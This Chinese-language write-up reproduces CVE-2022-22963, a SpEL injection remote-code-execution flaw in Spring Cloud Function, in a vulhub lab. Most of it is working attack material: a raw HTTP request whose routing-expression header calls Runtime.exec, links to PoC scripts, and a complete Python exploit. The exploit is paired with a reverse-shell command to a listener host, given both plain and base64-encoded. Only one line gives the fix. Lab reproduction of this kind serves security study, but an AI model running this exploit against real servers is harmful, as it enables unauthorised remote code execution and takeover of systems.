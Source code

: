 # Spring Cloud Function SpEL表达式命令注入（CVE-2022-22963）

### 0x00 前言

2022年3月，Spring Cloud 官方修复了一个 Spring Cloud Function中的 SPEL 表达式注入漏洞，由于 Spring Cloud Function中 RoutingFunction 类的 apply 方法将请求头中的 “spring.cloud.function.routing-expression” 参数作为SpEL表达式进行处理，造成了SpEL表达式注入漏洞，攻击者可利用该漏洞远程执行任意代码。

**影响版本：**

```
3.0.0.RELEASE <= Spring Cloud Function <= 3.2.2
```

### 0x01 环境搭建

这里使用vulhub漏洞靶场

```shell
cd /opt/vulhub/spring/CVE-2022-22963
docker-compose up -d
```

![image-20230413105641214](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230413105641214.png)

访问`http://your_ip:8080`

### 0x02 POC/EXP脚本

cve_2022_22963_poc.py: `https://github.com/lcyunkong/pochub/blob/main/pochub/poc_list/web/Spring/cve_2022_22963_poc.py`

```python
# 利用：
# 在代码最后传入目标url即可，实例：
vuln_scan_start("http://192.168.12.130:8090")
```

cve_2022_22963_cmd.py: `https://github.com/lcyunkong/pochub/blob/main/pochub/poc_list/web/Spring/cve_2022_22963_cmd.py`

```python
# 利用：
# 在代码最后传入目标url和想要操作的命令即可，实例：
vuln_exploit_start("http://192.168.12.130:8080/",
                   "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEyLjE1Mi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}")
```

### 0x03 复现步骤

1、构造POC数据包，其中命令可以自行填写

```
POST /functionRouter HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("touch /tmp/success")
Content-Type: text/plain
Content-Length: 4

test
```

2、抓包后发送，即可发现文件创建成功

3、使用脚本进行反弹shell——通过构造数据包也可以反弹shell，举个例子而已

```python
import requests
import urllib3

urllib3.disable_warnings()


def exploit(target_url, command):
    payload = f'T(java.lang.Runtime).getRuntime().exec("{command}")'

    data = 'test'
    headers = {
        'spring.cloud.function.routing-expression': payload,
        'Accept-Encoding': 'gzip, deflate',
        'Accept': '*/*',
        'Accept-Language': 'en',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0',
        'Content-Type': 'application/x-www-form-urlencoded'
    }
    path = '/functionRouter'

    target_url = target_url.strip()
    all = target_url + path
    try:
        req = requests.post(url=all, headers=headers, data=data, verify=False, timeout=3)
        code = req.status_code
        text = req.text
        rsp = '"error":"Internal Server Error"'

        if code == 500 and rsp in text:
            print("[+] Command executed successfully")
        else:
            print("[-] Failed to execute command")

    except requests.exceptions.RequestException:
        print(f'[-] {target_url} detection timed out')
    except:
        print(f'[-] {target_url} error')


def vuln_exploit_start(target_url, command):
    exploit(target_url, command)


if __name__ == '__main__':
    vuln_exploit_start("http://192.168.12.130:8080/", "bash -i >& /dev/tcp/192.168.12.152/5555 0>&1")
```

4、kali开启监听，运行python脚本

![image-20230413115719660](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230413115719660.png)

### 0x04 修复建议

1、官方已发布补丁，官方链接：`https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f `。

